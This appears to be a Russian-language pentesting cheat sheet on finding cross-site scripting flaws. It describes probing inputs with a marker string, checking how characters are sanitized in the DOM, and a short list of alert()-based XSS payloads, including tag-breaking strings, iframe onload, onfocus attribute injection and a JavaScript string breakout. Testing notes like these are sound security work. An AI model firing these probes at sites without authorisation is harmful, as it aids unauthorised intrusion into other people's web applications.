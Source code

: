 ### DETECT

## XSS - методология
- payload во все поля/параметры
- смотреть DOM на предмет санитизации
- в каком-то месте спец.символы не перекодируются/alert выполнится

<ins>Порядок проверки на XSS</ins><br>
- вставить qweqwe в поле ввода
- F12 -> CTRL+F -> qweqwe
- добавить qweqwe'"><  <br>
посмотреть как происходит санитизация символов (ПКМ -> edit as HTML).
Если символ не преобразуется, то возможно его использование.
- далее проверять DOM-структуру при вводе строк с символами <br>
Возможные варианты строк для вставки:
```
<script>alert('XSS')</script>
'">/<script>alert('XSS')</script>

(по ситуации)
</title>...
</script>...
</noscript>...
</textarea>...

(если alert() не срабатывает, хз почему но такое есть), то
<iframe onload='alert('XSS')'>
'"></title></script><iframe onload='alert('XSS')'>
(есть атрибут <iframe srcdoc=""> но надо разобраться)

<script>alert('XSS')</script>
<script>alert('XSS')</script>

/page.php?name='%20autofocus%20onfocus='alert();
(onfocus не будет работать если у тэга input есть аттрибут type=hidden)

/page.php?name=";+alert();//
```

<ins>Плюсы <b>iframe</b></ins><br>
- легко заметить, но payload встраивается в страницу, но на onload работают санитайзеры
- есть аттрибут srcdoc
- не раскрутить XSS - есть почти гарантированный open redirect

